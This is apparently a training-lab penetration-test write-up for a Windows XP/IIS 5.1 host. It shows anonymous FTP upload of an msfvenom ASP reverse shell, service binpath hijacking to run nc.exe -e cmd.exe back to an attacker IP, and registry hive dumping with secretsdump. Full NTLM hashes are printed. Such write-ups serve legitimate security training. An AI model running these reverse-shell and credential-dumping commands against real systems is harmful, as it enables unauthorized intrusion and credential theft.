# 10.11.1.14
## Summary
### System Information
```text
IP: 10.11.1.14
OS: Windows
Hostname: bob
```
### Credentials
```text

```

### Hashes
```text
a26f37da4583ff68f44d133d12ae3459

Administrator:500:aad3b435b51404eeaad3b435b51404ee:3194891312029ef822116b418563087f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:05fa67eaec4d789ec4bd52f48e5a6b28:2733cdb0d8a1fec3f976f3b8ad1deeef:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:0f7a50dd4b95cec4c1dea566f820f4e7:::
bob:1004:f9955e274d35f503bb4798ef9ca65d2d:ff79db8ed6fe21369790a94b5eecd8e0:::
IUSR_BOB:1005:ad494fc8f015fddb4d9497b508477485:2370bd19f77f088cf1540624c91be101:::
IWAM_BOB:1006:170b37b9818316abc9813aabb4dcf396:e4be24494f363a2c015bf08b2453129d:::
```

### Ports
```text
21/tcp  open   ftp     Microsoft ftpd
80/tcp  open   http    Microsoft IIS httpd 5.1
443/tcp open   https?
```

***

## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -oN scans/nmap.txt 10.11.1.14
```

```text
PORT    STATE  SERVICE VERSION
21/tcp  open   ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 01-17-07  07:42PM       <DIR>          AdminScripts
| 01-17-07  07:43PM       <DIR>          ftproot
| 01-17-07  07:43PM       <DIR>          iissamples
| 01-17-07  07:43PM       <DIR>          Scripts
|_04-16-16  10:42AM       <DIR>          wwwroot
23/tcp  closed telnet
25/tcp  closed smtp
80/tcp  open   http    Microsoft IIS httpd 5.1
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/5.1
|_  Server Date: Tue, 02 Aug 2022 06:53:45 GMT
|_http-server-header: Microsoft-IIS/5.1
110/tcp closed pop3
443/tcp open   https?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### FTP

Anonymous FTP is enabled.

```bash
ftp anonymous@10.11.1.14
```

## Shell as IUSR_BOB

Since we have write permissions to the `wwwroot` directory, we can upload an `asp` reverse shell and execute it by accessing the web page.

Let's first generate a stageless webshell.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.194 LPORT=9001 -f asp > shell.asp
```

We can then upload the shell via FTP.

  

Setup a `netcat` listener to catch our shell.

```bash
rlwrap nc -lnvp 9001
```

Then using `curl` we can execute the shell.

  

## Privilege Escalation

### Upload Tools

We don't have `whoami` on the target so let's upload it. We can use FTP for this.

```bash
cp /usr/share/windows-binaries/whoami.exe ./ 
```

  

```powershell
.\whoami.exe /all
```

  

Let's also upload and run `accesschk.exe` to help enumerate permissions and services.

```bash
cp /usr/share/windows-binaries/accesschk.exe ./
```

### Enumeration

```powershell
.\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

  

This tells us that we have access to two services, and that we're able to edit the `upnphost` and `SSDPSRV` service parameters.

```powershell
.\accesschk.exe /accepteula -ucqv SSDPSRV
```

  

We can exploit this by making the service execute a binary of our choice.

Let's look at both services. We can see that the `upnphost` service requires the `SSDPSRV` service as a dependency.

```powershell
sc qc SSDPSRV
sc qc upnphost
```

  

### Exploit Services

If we look at the status of the `SSDPSRV` service we see that it's current stopped. If we try and start it we get an error.

```powershell
sc query SSDPSRV
net start SSDPSRV
```

  

In order to fix this we need to change the `SSDPSRV` service `START_TYPE` from `DISABLED` to `AUTOMATIC` so we can start it.

```powershell
sc config SSDPSRV start= auto
sc qc SSDPSRV
net start SSDPSRV
```

As we can see, we're now able to start the process.

  

Before we continue, we need to upload `netcat` to the target. We can use FTP again.

```bash
cp /usr/share/windows-binaries/nc.exe ./
```

We can now change the binary path of the `upnphost` service.

```powershell
sc config upnphost binpath= "c:\inetpub\wwwroot\nc.exe 192.168.119.194 9001 -e c:\windows\system32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
```

Start two a `netcat` listeners on different ports. We'll need two because the shell is unstable and will close out quickly.

```bash
rlwrap nc -lnvp 9001
```

To trigger the payload all we need to do is start the service.

```powershell
net start upnphost
```

  

And we get our first shell. Then quickly execute the following to get another more stable shell.

```powershell
c:\inetpub\wwwroot\nc.exe 192.168.119.194 9002 -e c:\windows\system32\cmd.exe
```

  

We can check our privileges.

  

### Proof

```powershell
type proof.txt && ipconfig
```

  

## Post Exploitation

### Dump Hashes

```powershell
reg.exe save hklm\sam c:\inetpub\wwwroot\sam.save
reg.exe save hklm\security c:\inetpub\wwwroot\security.save
reg.exe save hklm\system c:\inetpub\wwwroot\system.save
```

  

```text
a26f37da4583ff68f44d133d12ae3459
```

We can use FTP to download the files onto our machine and get the hashes using `secretsdump`.

```bash
impacket-secretsdump -sam sam.save -security security.save -system system.save LOCAL -outputfile hashes/hashes
```

  